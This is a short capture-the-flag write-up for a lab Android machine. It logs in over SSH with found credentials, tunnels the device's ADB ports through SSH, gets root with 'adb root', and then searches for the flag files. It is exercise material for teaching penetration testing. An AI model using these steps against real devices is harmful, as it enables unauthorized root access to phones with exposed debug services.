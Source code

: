 - `ssh kristi@10.10.10.247 -P 2222` let's try to ssh with the creds provided
- It works  

![ssh port](../.res/2023-02-04-13-27-10.png)

- We can find the user find in sdcard  

![user flag](../.res/2023-02-04-13-30-12.png)

## Privilege escalation

- Let's make an ssh tunnel `ssh -NL 5556:localhost:5554 -L 5557:localhost:5555 -p 2222 kristi@10.10.10.247` this way we can use adb through this tunnel (I followed [this tutorial](https://dontbelievethebyte.github.io/articles/2015/01/15/debug-remotely-on-android-via-ssh-tunnel/) for the setup)
- In another tab we run `killall adb`
- and then `adb devices` we see our target is listed  

![adb devices](../.res/2023-02-04-14-05-27.png)

- Now let's try to root with `adb root` it works  

![adb root](../.res/2023-02-04-14-06-44.png)

- Let's search the root flag `find / -type f -name "root.txt" 2>/dev/null`

![root flag](../.res/2023-02-04-14-10-11.png)